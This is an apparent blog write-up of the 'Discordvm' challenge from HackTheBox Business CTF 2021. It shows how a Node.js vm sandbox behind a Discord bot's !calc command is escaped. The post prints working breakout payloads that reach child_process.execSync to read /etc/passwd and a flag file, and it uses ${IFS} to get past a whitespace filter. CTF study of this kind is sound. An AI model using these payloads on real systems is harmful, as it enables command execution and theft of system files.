 ```yaml
---
title: "HackTheBox Business CTF 2021 - Discordvm (Misc)"
classes: wide
header:
  teaser: /assets/images/htb-frame.png
search: true
categories: 
  - HackTheBox
  - HackTheBox Business CTF 2021
  - CTF
tags:
  - HackTheBox Business CTF 2021
last_modified_at: 2021-07-26T26:58:26+08:00
---
```


`Discordvm` is a misc challenge from [HackTheBox Business CTF 2021](https://www.hackthebox.eu/htb-business-ctf-2021?utm_source=website&utm_medium=banner&utm_campaign=business_ctf). This challenge is talking about how to vm module breakout on nodejs.

Click challenge information
![Discordvm](/assets/images/htbbiz2021-discordvm/discordvm.png)

Click the url, it will navigate to a discord channel
![Discordvm](/assets/images/htbbiz2021-discordvm/discordvm2.png)

Let's send a message to `discordvm`
![Discordvm](/assets/images/htbbiz2021-discordvm/discordvm3.png)

when we to execute the program using with `!calc`, for example `!calc 1+1` will show the output from `discordvm` `1+1=2`.
Let's analyze the source codes
```javascript
const vm = require('vm');
const payload = '1+1';
console.log(vm.runInNewContext(payload));
```
and we follow the intructions from [NodeJS Red Team Cheat Sheet](https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet) or [Sandboxing NodeJS is hard, here is why](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html)

**vm module breakout (by pwnisher)**
```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```
we need this `const`
```js
process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()
```
we got an error
![Discordvm](/assets/images/htbbiz2021-discordvm/discordvm4.png)

modify without whitespace like this
```js
process=this.constructor.constructor('return(this.process)')();process.mainModule.require('child_process').execSync('cat${IFS}flag.txt').toString()
```
![Discordvm](/assets/images/htbbiz2021-discordvm/discordvm5.png)
